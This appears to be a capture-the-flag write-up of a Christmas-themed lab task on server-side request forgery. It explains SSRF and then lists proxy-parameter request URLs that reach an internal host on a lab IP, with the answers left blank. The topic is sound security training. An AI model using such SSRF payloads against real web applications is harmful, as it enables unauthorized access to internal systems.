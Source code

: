 # The Naughty or Nice List

## Video

{% embed url="https://www.youtube.com/watch?v=XgJ\_6xdspKM" %}

## Resources

### Server-Side Request Forgery

Server-Side Request Forgery \(SSRF\) is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. This is perfectly valid functionality, however, URLs can also be made for internal IP addresses \(e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.\) as well as internal-only hostnames \(e.g. localhost, WIN2019SERV.CORP\). If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.

To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. However, due to the complex nature of URLs themselves, there are often many things an attacker can do to bypass these checks.

Note that while the example of SSRF used in this task is effectively a Remote File Inclusion \(RFI\) vulnerability as well, not every SSRF is. Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. In other cases, SSRF may be used as a form of Denial of Service \(DoS\) since the attacker can continually request that the server download large files simultaneously \(taking up memory, disk space, and network bandwidth\).

## Challenge

### What is Santa's password?

![](../.gitbook/assets/image%20%28148%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DShell5

{% embed url="https://meyerweb.com/eric/tools/dencoder/" %}

![](../.gitbook/assets/image%20%28160%29.png)

> http://10.10.129.132/?proxy=http://list.hohoho:8080/search.php?name=Shell5

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F

![](../.gitbook/assets/image%20%28171%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28188%29.png)

![](../.gitbook/assets/image%20%28172%29.png)

{% hint style="success" %}

{% endhint %}

### What is the challenge flag?

{% hint style="success" %}

{% endhint %}

